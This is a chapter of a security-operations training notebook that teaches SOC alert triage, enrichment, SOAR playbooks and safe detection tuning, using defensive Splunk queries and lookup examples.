










This is Chapter 12 of the SOC & Blue Team notebook. Chapters 7–11 taught you to *read* every major source — Windows and Linux logs, network monitoring, EDR. This chapter is about the job those sources create: a **queue of alerts**, arriving all day, most of them wrong, a few of them the start of a breach. **Triage** is the discipline of working that queue — deciding fast and correctly which alerts are real, how bad they are, and what to do — and **detection tuning** is the discipline of making the queue better so tomorrow's is more signal and less noise. These two skills, more than any tool, determine whether a SOC actually protects the organisation or drowns while the real intrusion slips through at alert #4,312.

The uncomfortable reality that shapes everything here: **the overwhelming majority of SOC alerts are false or benign positives.** Analysts routinely face hundreds to thousands of alerts per shift, and industry surveys consistently find teams ignore or never investigate a large fraction of them because there simply isn't time. Attackers know this — they *rely* on alert fatigue, hiding their few real events in the flood. So triage is not just "look at alerts"; it is a time-economics problem: spend the right amount of attention on each alert, ruthlessly cut the noise, and make sure the one that matters gets the depth it deserves.

We build the skill from the ground up: the **alert lifecycle** and the queue, a **repeatable triage methodology** you run on every alert, **severity vs. priority** models for ordering work, the **true/false/benign-positive** taxonomy and how to reach a verdict, **enrichment** (the context that turns a bare alert into a decision) and how to automate it, the **economics of false positives** and alert fatigue, **detection tuning** done *safely* (allowlisting, thresholds, aggregation, suppression — without blinding yourself), writing the **investigation ticket**, and the **metrics** (MTTD, MTTR, dwell time) that tell you whether the SOC is improving. A hands-on lab takes a noisy rule from thousands of daily false positives down to a handful of high-fidelity alerts without losing a real detection.

The framing note: triage and tuning are defensive craft. Every tuning decision in this chapter is made *carefully* — the cardinal sin of tuning is silencing the alert that would have caught the breach, so we treat suppression as risk, document it, and prefer precision over blanket muting. Practise on your own SIEM/EDR lab and public datasets (BOTS, the Splunk/Elastic sample data, LetsDefend/CyberDefenders alert queues), and always reason about what a tuning rule might hide before you apply it.

We build from the alert lifecycle and queue, through the triage methodology, severity/priority, the positive taxonomy and verdicts, enrichment and automation, alert fatigue economics, safe detection tuning, ticket-writing, and SOC metrics, then a full noisy-rule tuning lab, a consolidated detection-and-defense section, a final revision, a cheat sheet, and topic-specific practice.

---

## Part 1: The Alert Lifecycle and the Queue

Every alert, from any source (SIEM correlation rule, EDR behavioural detection, IDS signature, email gateway, cloud posture tool), moves through a lifecycle. Knowing the stages tells you where you are and what "done" means.



**The stages, and the analyst's obligation at each:**

| Stage | What happens | Analyst obligation |
|---|---|---|
| **New** | Detection fires, lands in the queue with a severity | Pick up in SLA order, don't cherry-pick easy ones |
| **In triage** | Analyst validates the alert is what it claims | Confirm the raw evidence, not just the alert text |
| **Enriching** | Add context (asset, user, reputation, history) | Gather enough to decide, not more than needed |
| **Verdict** | TP / FP / BP decision | Defensible, evidence-backed |
| **Act** | Escalate (TP), tune (FP/BP), document all | Close the loop — a verdict without an action is wasted |
| **Closed** | Ticket resolved with rationale | Written so the next analyst understands why |

**The queue is a shared, prioritized worklist.** In a real SOC the queue lives in a SIEM (Splunk ES "Incident Review", Sentinel "Incidents", Elastic "Alerts"), a SOAR/case tool (TheHive, Swimlane, XSOAR), or a ticketing system. Alerts arrive with a **severity** the detection assigned; analysts work them by **priority** (severity adjusted for asset value and context — Part 3). Two anti-patterns to avoid from day one: **cherry-picking** the easy alerts (leaving hard ones to rot past SLA) and **rubber-stamping** (closing without validating). Both feel productive and both let real intrusions through.

**Tiering (Chapter 1 recap, applied):** Tier 1 handles the bulk of triage and closes/escalates; Tier 2 takes the escalations and deeper investigations; Tier 3 / threat hunting / detection engineering build and tune the detections that feed the queue. This chapter is the Tier 1/2 daily craft, with the Tier 3 tuning that makes it sustainable.

---

## Part 2: A Repeatable Triage Methodology

The single most important thing an analyst can have is a **consistent method** applied to every alert, so nothing is skipped under pressure and verdicts are defensible. Here is the method; the rest of the chapter is depth on its steps.



### Step 1 — Validate

Confirm the alert reflects real, correctly-parsed evidence. Detections misfire: a broken parser, a field mismatch, a test event, or a benign string that matched a signature. **Open the raw event(s)** behind the alert and confirm the behaviour actually occurred as described. *Example:* an alert says "encoded PowerShell"; validate by reading the actual command line — is there really an `-enc` with a payload, or did the rule match the literal string "encoding" in a benign log line?

### Step 2 — Scope

Determine breadth immediately, because it changes everything downstream. Is this **one** host/user/IP or **many**? A single failed login is noise; the same source hitting 200 accounts is a spray. Scoping early prevents you from treating a campaign as an isolated event.

```text
# Splunk: is this alert's indicator isolated or widespread?
index=* src_ip="203.0.113.44" | stats dc(dest) as targets, count by src_ip
index=* user="jsmith" signature="*" earliest=-24h | timechart count by signature
```

### Step 3 — Enrich

Add the context needed to decide (Part 5): **asset** (what is this host — a domain controller or a test VM?), **user** (privileged? on leave? matches the activity?), **reputation** (is the IP/domain/hash known-bad?), **history** (has this fired before and been resolved as FP?). Enrichment is what turns "a login from Nigeria" into "the user is Nigerian and travels there monthly" (benign) or "the user is in Ohio and just logged in from Ohio five minutes ago" (impossible travel — real).

### Step 4 — Verdict

Reach a **defensible verdict**: True Positive (malicious), False Positive (not what it claimed / not malicious), or Benign Positive (real activity, but authorized/expected). Part 4 details the taxonomy. The verdict must be backed by the evidence you gathered, not a guess.

### Step 5 — Act

- **True Positive** → escalate to incident handling (Chapter 13), begin containment (isolate host, block IOC, reset creds) per playbook.
- **False / Benign Positive** → **tune** so it fires less next time (Part 7), *carefully*.

### Step 6 — Document

Write the ticket (Part 8): what fired, what you checked, the evidence, the verdict, and the action — so the decision is auditable and the next analyst benefits. **A verdict without documentation is not finished.**

**Timeboxing.** Not every alert deserves equal time. A mature analyst spends seconds on obvious FPs, minutes on routine alerts, and escalates anything that can't be resolved quickly rather than sinking an hour into one ticket while the queue grows. Knowing when to *escalate rather than solve* is a Tier 1 skill.

---

## Part 3: Severity vs. Priority — Ordering the Work

Analysts constantly confuse **severity** and **priority**; the distinction is what makes a queue tractable.

- **Severity** = how bad the *detection* is in the abstract (the rule's inherent seriousness — a credential-dump detection is high severity, a single failed login is low). It's set by the detection author.
- **Priority** = how urgently *this instance* needs attention, = severity **adjusted for context**: the asset's value, the user's privilege, the confidence, and the scope. A high-severity alert on a decommissioned test box may be low priority; a medium-severity alert on a domain controller may be top priority.

A common model computes priority from **impact × likelihood/confidence**, weighted by **asset criticality**:

| Factor | Raises priority | Lowers priority |
|---|---|---|
| Asset criticality | DC, database, jump box, exec laptop | test VM, sandbox, kiosk |
| User privilege | domain/local admin, service account | standard user, no access to sensitive data |
| Confidence | high-fidelity rule, corroborated | single low-fidelity signature |
| Scope | many hosts/users | one, isolated |
| Kill-chain stage | credential access, C2, exfil, impact | recon, single failed login |
| Data sensitivity | regulated/crown-jewel data at stake | non-sensitive |

```text
# A simple priority score used in many SOCs (illustrative)
priority = detection_severity * asset_criticality * confidence
# then map to a queue tier: P1 (act now) ... P4 (batch/tune)
```

**Asset context is the multiplier that matters most**, which is why a maintained **asset inventory / CMDB** (tagging hosts by role and criticality, users by privilege) is a force-multiplier for triage — the same alert means very different things on a DC vs. a test box, and only the inventory tells you which you're looking at. A SOC without asset context triages blind, treating every host as equal, which is both slow and dangerous.



---

## Part 4: The Positive Taxonomy — Reaching a Verdict

Every triaged alert resolves to one of three verdicts. Using the vocabulary precisely matters because the *action* differs for each.

| Verdict | Definition | Example | Action |
|---|---|---|---|
| **True Positive (TP)** | The alert correctly identified malicious/unauthorized activity | Real webshell, confirmed C2 beacon, credential dumping | Escalate → incident response (Ch 13) |
| **False Positive (FP)** | The alert fired but the activity is **not** malicious *and not what the rule intended* | Rule matched a benign string; parser error; test traffic | Tune the rule; close |
| **Benign Positive (BP)** | The activity is **real and exactly what the rule detects**, but it's **authorized/expected** | Admin legitimately running PsExec; sanctioned vuln scan; approved software using `certutil` | Allowlist the known-good context; close |
| *(also)* **True Negative** | Correctly *didn't* alert on benign activity | — | (invisible; the goal state) |
| *(also)* **False Negative** | Malicious activity that **didn't** alert — the dangerous miss | Novel C2 no rule covered | Build a new detection (Ch: detection engineering) |

**Why FP vs. BP matters for tuning.** A **false positive** is a *rule defect* — the detection is matching things it shouldn't, so you fix the rule (tighten the logic, fix the parser). A **benign positive** is the rule working *correctly* on authorized activity — so you don't change the detection logic, you **allowlist the specific known-good context** (this admin, this host, this scanner) and keep the rule live for everyone else. Confusing the two leads to bad tuning: broadly weakening a good rule because an admin tripped it, which blinds you to the attacker doing the same thing.

**The false negative is the one that hurts.** TPs and FPs are visible; the **false negative** — the attack that never alerted — is invisible until it's a breach. Every tuning decision must be weighed against the risk of creating a false negative: *if I suppress this, what real attack am I now blind to?* This question is the spine of safe tuning (Part 7).



---

## Part 5: Enrichment — The Context That Makes the Decision

Enrichment is *the* value-add of triage: a bare alert is "src 203.0.113.44 connected to host X"; enriched, it's "a known Cobalt-Strike C2 IP (VT: 42/70, first seen yesterday) connected to a **domain controller** during a change freeze, and the same IP hit two other hosts." One is undecidable; the other is a P1 incident. The art is gathering *enough* context fast, ideally automatically.

### The enrichment categories

| Category | Question it answers | Source |
|---|---|---|
| **Asset** | What is this host? Criticality? Owner? Patch level? | CMDB / asset inventory / EDR |
| **Identity** | Who is this user? Privilege? Normal behaviour? On leave? | IdP (AD/Entra/Okta), HR feed |
| **Reputation** | Is this IP/domain/hash/URL known-bad? | VirusTotal, urlscan, AbuseIPDB, GreyNoise, threat-intel platform (Ch 19) |
| **Geo/ASN** | Where is this IP? Hosting/VPN/Tor? | MaxMind GeoIP, ASN lookup |
| **History** | Has this alert/indicator fired before? Verdict then? | SIEM/case history |
| **Behavioural baseline** | Is this normal for this user/host/time? | UEBA / baselining |
| **Corroboration** | Do other sources agree? (net + endpoint + identity) | Cross-source SIEM search |

### Enrichment in practice

```text
# History: has this exact indicator been seen/resolved before?
index=notable src_ip="203.0.113.44" OR file_hash="908b64..." | table _time rule_name status disposition analyst

# Corroboration: does the endpoint view confirm the network alert?
index=edr dest_ip="203.0.113.44" | table _time host process_name process_cmdline user

# Baseline: is this login normal for the user?
index=auth user="jsmith" earliest=-30d | stats values(src_country) as usual_geos, dc(src_ip) as ips
```

```bash
# Reputation (defanged in notes): IP, domain, hash
# GreyNoise: is this IP mass-scanning the internet (background noise) or targeted?
# AbuseIPDB: abuse confidence score
# VirusTotal: detections + first-seen for hash/domain/URL
whois 203.0.113.44 | grep -iE "OrgName|Country"     # who owns the netblock
dig +short -x 203.0.113.44                           # PTR / hosting hint
```

**GreyNoise deserves a special mention for triage:** it tells you whether an IP is *mass-scanning the whole internet* (background "noise" hitting everyone — usually low priority) versus *targeting you specifically* (higher priority). That single distinction resolves a huge fraction of perimeter alerts.

### Automating enrichment (SOAR)

Doing all of the above by hand for every alert is where analyst time evaporates. **SOAR (Security Orchestration, Automation and Response)** platforms (Splunk SOAR/Phantom, Cortex XSOAR, Tines, Shuffle — the last two free/affordable) run **playbooks** that auto-enrich an alert the moment it fires: pull the asset from the CMDB, the user from the IdP, run every indicator through reputation services, check history, and attach it all to the ticket — so the analyst opens a *pre-enriched* alert and spends their time on the *decision*, not the gathering.



**The automation principle:** automate the *gathering* and the *deterministic* actions (enrichment, obvious FP closure, IOC blocking on high-confidence hits); keep the *judgement* — the verdict on ambiguous alerts — with the human. Over-automating verdicts creates auto-closed false negatives; under-automating enrichment burns out analysts. The balance is: machines gather and act on the clear-cut, humans decide the grey.

---

## Part 5b: Playbooks and Runbooks — Consistency at Scale

The Part-2 method is the *general* algorithm; **playbooks** (a.k.a. runbooks/SOPs) are the *per-alert-type* recipes that make triage consistent across analysts and shifts. A playbook encodes, for one detection family, exactly what to validate, what to enrich, the decision criteria, and the action — so a junior analyst reaches the same verdict a senior would, and nothing is skipped at 3 a.m.

### What a playbook contains

```text
PLAYBOOK: SSH brute force
  Trigger:   >= 50 failed SSH auths from one src in 5 min
  Validate:  confirm failures real (index=linux ... "Failed password" | stats count by user)
  Enrich:    (1) did it SUCCEED? ("Accepted" from same src)  <-- the hinge
             (2) GreyNoise (mass-scanner vs targeted), AbuseIPDB score
             (3) is dst asset critical? internet-exposed?
  Decide:    success   -> TRUE POSITIVE (P1) -> escalate + reset + isolate
             no success + mass-scanner -> benign/attempted -> confirm block, close
             no success + TARGETED (GreyNoise) -> raise priority, monitor
  Act:       block src at edge if not already; ticket with verdict + evidence
  Escalate:  any successful auth, or targeting of a crown-jewel asset
```

### A playbook catalogue (starter set every SOC needs)

| Alert family | Key validation | Decisive enrichment | Usual escalation trigger |
|---|---|---|---|
| Brute force / spray | failures real; success? | GreyNoise, success query | any successful auth |
| Impossible travel | both logins real+success | baseline geo, HR travel, MFA/device | unbaselined geo + new device/no-MFA |
| Malware/EDR detection | read tree + cmdline | hash rep, parent, scope | confirmed exec / C2 / cred access |
| Phishing report | headers + URL/attach (Ch 9) | domain age, urlscan, user clicked? | creds submitted / attachment run |
| C2 / beaconing (NIDS) | corroborate w/ endpoint | conn cadence, JA3, dest rep | confirmed beacon / exfil |
| Data exfil | volume real; sanctioned? | dest rep, data sensitivity, user role | large egress to rare dest |
| Cloud/IAM anomaly | action real+successful | user role, source IP/ASN, MFA | privilege change / key creation |

### The SOAR playbook (automated version)

A SOAR platform executes the enrichment half of a playbook automatically. In pseudo-code:

```python
# SOAR playbook: triage_brute_force(alert)
def triage_brute_force(alert):
    src = alert.src_ip
    failures = siem.search(f'src_ip={src} "Failed password"')      # validate
    success  = siem.search(f'src_ip={src} "Accepted"')             # the hinge
    gn  = greynoise.lookup(src)                                    # enrich
    abuse = abuseipdb.lookup(src)
    asset = cmdb.lookup(alert.dest_host)

    ticket.enrich(failures=failures.count, users=failures.users,
                  greynoise=gn.classification, abuse=abuse.score, asset=asset.criticality)

    if success.count > 0:                                          # deterministic escalate
        ticket.set_verdict("TP", confidence="high")
        actions.isolate(alert.dest_host); actions.block_ip(src)
        ticket.escalate("IR")
    elif gn.classification == "malicious-scanner" and asset.criticality < HIGH:
        ticket.set_verdict("attempted/benign", confidence="high")  # auto-close the clear-cut
        actions.confirm_edge_block(src); ticket.close()
    else:
        ticket.assign_to_analyst()                                 # ambiguous -> human decides
```

**Note the division of labour:** the SOAR *gathers* everything and *acts* on the two clear-cut branches (a confirmed success → escalate; a mass-scanner failure on a low-value asset → close), but hands the **ambiguous** middle to a human. That is the automation principle from Part 5 made concrete — automate gathering and the unambiguous, reserve judgement for the grey. A playbook library plus this automation is how a small SOC handles a large queue without either drowning or auto-closing the breach.

## Part 6: Alert Fatigue and the Economics of False Positives

This is the part most technical treatments skip, and it's the one that decides whether a SOC works. Triage is a **time-economics** problem.

### The math of a noisy rule

Suppose one detection fires **500 times a day** and is **99% false positive**. That's 5 real events and 495 false among them — but the analyst doesn't know which, so all 500 must be looked at. At even 3 minutes each, that's **25 analyst-hours per day on one rule** — more than three full-time analysts, to find 5 real events that are buried in a haystack the rule itself created. Multiply across dozens of noisy rules and the SOC is mathematically incapable of keeping up.

The consequences, all documented in SOC research:

- **Missed detections.** When the queue exceeds capacity, alerts go uninvestigated. Surveys repeatedly find teams unable to review a large share of daily alerts — the attacker's few real events sit unworked.
- **Desensitization.** After the 400th false "encoded PowerShell," analysts start reflexively closing them — and close the one that was real. This is exactly the failure mode behind several famous breaches where the alert *did* fire and was ignored.
- **Burnout and churn.** Alert fatigue is a leading cause of SOC analyst burnout and turnover, which degrades the team's skill and continuity.



### The reframing: false-positive reduction *is* security

Because of this math, **reducing false positives is not housekeeping — it is a core security control.** Every noisy rule you tune returns analyst attention to the alerts that matter, which directly increases the odds of catching a real intrusion. A SOC that treats tuning as optional "cleanup" will always be underwater; a SOC that treats it as first-class engineering (a Tier 3 responsibility with metrics and review) stays afloat. The goal is not zero alerts — it's a queue where a high fraction of alerts are worth an analyst's time, so attention is spent on real risk.

**The precision/recall trade-off, stated plainly:** tightening a rule to cut false positives (raise **precision**) risks missing real events (lower **recall** → false negatives). Loosening it to catch everything (raise recall) floods the queue (lower precision). Good detection engineering finds rules that are *both* — specific behavioural logic (Chapter 11's "Office→shell", not "powershell ran") is how you get high precision *and* high recall at once. When you can't have both, you make the trade-off *consciously and documented*, weighting toward recall for high-severity techniques (better a false alarm than a missed breach) and toward precision for low-severity noise.

---

## Part 7: Detection Tuning Done Safely

Tuning is how you fix the queue. Done well it removes noise without removing coverage; done badly it silences the breach. Here are the techniques, in order of preference, each with its risk.

### The tuning toolbox

| Technique | What it does | Risk | When to use |
|---|---|---|---|
| **Tighten the logic** | Make the rule more specific (behavioural, not string) | Lowest — improves precision *and* keeps coverage | First choice: fix a rule that's genuinely too broad |
| **Allowlist (exception)** | Exclude a specific known-good entity (this admin/host/scanner) | Low if narrow; **high if broad** | Benign positives from a known source |
| **Threshold** | Only alert after N occurrences in T time | Medium — a slow attacker under the threshold is missed | Volume-based noise (scans, failed logins) |
| **Aggregation / dedup** | Collapse many identical alerts into one | Low — reduces count, not coverage | Repetitive identical alerts |
| **Suppression / mute** | Stop the alert firing (for a scope/time) | **Highest — can hide real attacks** | Last resort; always time-boxed + documented |

### The rules of safe tuning

1. **Tighten before you suppress.** The best tuning makes the rule *more accurate*, not *quieter*. Prefer "add a condition that excludes the benign pattern" over "mute the alert."
2. **Allowlist narrowly.** Exclude the *specific* known-good context (`user=svc_backup AND host=BACKUP01 AND process=robocopy`), never the whole behaviour (`exclude all robocopy`). A broad allowlist is a gift to an attacker who mimics the excluded context.
3. **Always ask "what does this hide?"** Before applying, state the false-negative risk explicitly: *this suppression means we won't see X if an attacker does Y.* If that risk is unacceptable, don't suppress — tighten instead.
4. **Document every tuning decision.** Who, when, why, the exact condition, and the risk accepted. Undocumented allowlists accumulate into invisible blind spots that outlive the reason they were added.
5. **Time-box suppressions.** A mute for "the migration this week" must *expire*, or it becomes permanent blindness. Review allowlists periodically.
6. **Test against known-bad.** After tuning, confirm the rule *still* fires on the malicious case (e.g. an Atomic Red Team test, Chapter 11) — proving you cut noise, not coverage.
